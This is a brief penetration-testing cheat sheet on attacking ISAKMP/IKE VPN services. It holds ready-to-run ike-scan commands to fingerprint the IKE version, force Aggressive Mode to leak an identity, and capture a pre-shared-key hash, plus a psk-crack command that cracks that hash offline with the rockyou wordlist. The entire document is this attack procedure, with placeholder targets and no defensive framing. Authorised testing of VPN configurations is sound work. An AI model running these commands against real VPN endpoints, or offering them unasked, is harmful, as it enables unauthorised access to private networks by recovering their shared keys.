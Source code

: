 # ISAKMP/IKE 
**on UDP most of the time - VPN protocols, Try break it using Aggressive mode and crack password offline. Works on IKEv1. IKEv2 will not work most probably.**

### For identificate IKE version, force a handshake and grab a hash use `ike-scan `
``` bash
sudo ike-scan [TARGET-IP] 
```

##### Forcing Aggressive Mode for an Identity Leak
```bash
sudo ike-scan -A [TARGET-IP]
```

#### Capturing and cracking the PSK Hash
```bash
ike-scan --aggressive --id=[USERNAME-FROM-STEP-ABOVE] [TARGET-IP] --pskcrack=ike_hash.txt
```

```bash
psk-crack ike_hash.txt -d /usr/share/wordlists/rockyou.txt
```
